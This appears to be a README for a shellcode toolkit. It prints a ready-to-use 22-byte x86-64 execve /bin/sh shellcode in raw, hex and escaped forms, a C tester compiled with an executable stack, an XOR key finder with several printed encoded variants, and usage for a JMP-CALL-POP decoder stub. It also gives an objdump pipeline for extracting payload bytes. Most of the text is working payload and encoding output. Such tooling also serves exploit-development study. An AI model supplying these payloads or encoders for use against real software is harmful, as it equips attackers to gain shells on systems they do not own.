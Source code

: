 # Usage

## The shellcode python generator

It uses the simplest "execve /bin/sh" shellcode by default

```bash
python3 generate_shellcode.py

Shellcode: b'1\xf6VH\xbb/bin//shST_\xf7\xee\xb0;\x0f\x05'
Shellcode HEX: 31f65648bb2f62696e2f2f736853545ff7eeb03b0f05
Raw Shellcode: \x31\xf6\x56\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xf7\xee\xb0\x3b\x0f\x05
Shellcode Length: 22 bytes
```

## The C payload tester

### Compile
`gcc -o test_payload test_payload.c -z execstack`

### Test
```bash
./test_payload               

$ id
uid=1000(xtk)...
```

## The XOR key finder

This script helps to avoid specified badbytes by static XOR key encoding. 
It looks for appropriate XOR key to fit specified badbytes

### Usage

```bash
$ python3 xor_key_finder.py

Found valid XOR key: 0x0d
Encoded shellcode:
\x3c\xfb\x5b\x45\xb6\x22\x6f\x64\x63\x22\x22\x7e\x65\x5e\x59\x52\xfa\xe3\xbd\x36\x02\x08
0x3c,0xfb,0x5b,0x45,0xb6,0x22,0x6f,0x64,0x63,0x22,0x22,0x7e,0x65,0x5e,0x59,0x52,0xfa,0xe3,0xbd,0x36,0x02,0x08
3cfb5b45b6226f646322227e655e5952fae3bd360208
...
Found valid XOR key: 0xaa
Encoded shellcode:
\x9b\x5c\xfc\xe2\x11\x85\xc8\xc3\xc4\x85\x85\xd9\xc2\xf9\xfe\xf5\x5d\x44\x1a\x91\xa5\xaf
0x9b,0x5c,0xfc,0xe2,0x11,0x85,0xc8,0xc3,0xc4,0x85,0x85,0xd9,0xc2,0xf9,0xfe,0xf5,0x5d,0x44,0x1a,0x91,0xa5,0xaf
9b5cfce21185c8c3c48585d9c2f9fef55d441a91a5af
...
```

### XOR payload decoder assembly

This assembly decodes XOR endcoded shellcode and uses JMP-CALL-POP technique to dynamically find the address of the payload in a position-independent manner, ensuring the decoder works regardless of where the code is loaded in memory.

### Usage

```bash
nasm -f elf64 -o shellcode.o XOR_decoder.nasm
ld -o shellcode shellcode.o
```

Let's get the RAW payload using:
```bash
objdump -d shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

